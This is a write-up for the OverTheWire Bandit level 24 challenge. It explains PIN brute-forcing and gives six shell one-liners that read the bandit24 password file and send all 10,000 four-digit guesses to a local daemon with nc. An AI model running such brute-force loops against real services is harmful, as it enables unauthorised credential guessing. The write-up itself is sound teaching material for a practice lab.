 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time


### 🔑 Solution

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Then enter the password obtained from the previous challenge.

### 🔑🔑🔑🔒 Brute-force Concept
| attempts | value                                 |
|----------|---------------------------------------|
| 1        | bandit24_password 0000                |
| 2        | bandit24_password 0001                |
| 3        | bandit24_password 0002                |
| 4        | bandit24_password 0003                |
| 5        | bandit24_password 0004                |
| 6        | bandit24_password 0005                |
| ...      | ...                                   |
| 9999     | bandit24_password 9998                |
| 10000    | bandit24_password 9999                |
| 🔐        | send each attempts to localhost:30002 |
| ❌        | Wrong pin: Try Again                  |
| ✅        | Right pin: bandit25_password          |


Write a loop function that repeatedly sends the value to localhost:30002 up to 10,000 times.

There are many ways to solve this challenge. Tools like awk, sed, echo, cat, printf, and paste can be useful for manipulating the data.

Below are some example commands that can help you complete the challenge.
```
{ for pin in $(seq -w 9999 -1 0000); do awk -v pin="$pin" '{print $0, pin}' /etc/bandit_pass/bandit24; done; } | nc localhost 30002
```
```
for pin in $(seq -w 9999 -1 0000); do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
seq -w 9999 -1 0000 | while read -r pin; do sed "s/\$/ $pin/" /etc/bandit_pass/bandit24; done | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do printf '%s\n' "$(cat /etc/bandit_pass/bandit24) $pin"; done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do paste -d' ' /etc/bandit_pass/bandit24 <(printf $pin); done; } | nc localhost 30002
```
```
{ for pin in $(seq -w 0000 9999); do echo gb8====bandit24password==== $pin; done; } | nc localhost 30002
```
![b24s1](b24s1.png)
![b24s2](b24s2.png)
![b24s3](b24s3.png)
![b24s4](b24s4.png)
![b24s5](b24s5.png)
![b24s6](b24s6.png)

#### 💻coding + 🎨creativity = ♾️🚀countless_possibility

![b24s7](b24s7.png)

Congratulations! You’ve found the flag for the next challenge.







